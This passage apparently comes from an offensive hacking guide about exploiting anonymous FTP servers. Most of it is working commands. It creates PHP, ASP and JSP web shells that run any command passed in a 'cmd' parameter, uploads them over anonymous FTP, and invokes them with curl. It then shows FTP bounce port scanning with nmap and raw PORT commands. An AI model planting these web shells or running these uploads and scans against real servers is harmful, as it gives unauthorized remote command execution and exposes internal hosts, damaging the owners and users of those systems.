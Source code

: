 ```bash
put shell.php
quit
EOF
done
```

**Step 2: Web Shell Creation and Upload**
```bash
# Create PHP web shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
echo '<?php system($_REQUEST["cmd"]); ?>' > shell2.php
echo '<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; } ?>' > shell3.php

# Create ASP web shell
echo '<%execute request("cmd")%>' > shell.asp
echo '<%eval request("cmd")%>' > shell2.asp

# Create JSP web shell
echo '<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>' > shell.jsp

# Upload via FTP
ftp $IP
anonymous

binary
put shell.php
put shell.asp
put shell.jsp
quit
```

**Step 3: Web Shell Access**
```bash
# Test web shell access
curl "http://$IP/shell.php?cmd=whoami"
curl "http://$IP/shell.php?cmd=id"
curl "http://$IP/shell.php?cmd=pwd"
curl "http://$IP/shell.php?cmd=dir" # Windows
curl "http://$IP/shell.php?cmd=ls -la" # Linux
```

### Method 2: FTP Bounce Attacks

**Step 1: FTP Bounce Port Scanning**
```bash
# Use nmap for FTP bounce scanning
nmap -b ftp_user:password@$IP target_ip -p 1-1000

# Manual FTP bounce
ftp $IP
anonymous

PORT 192,168,1,1,0,22  # Target IP: 192.168.1.1, Port: 22
LIST

# Port calculation: port = (high_byte * 256) + low_byte
# For port 22: 0,22 (high=0, low=22)
# For port 80: 0,80
# For port 443: 1,187 (443 = 1*256 + 187)
```
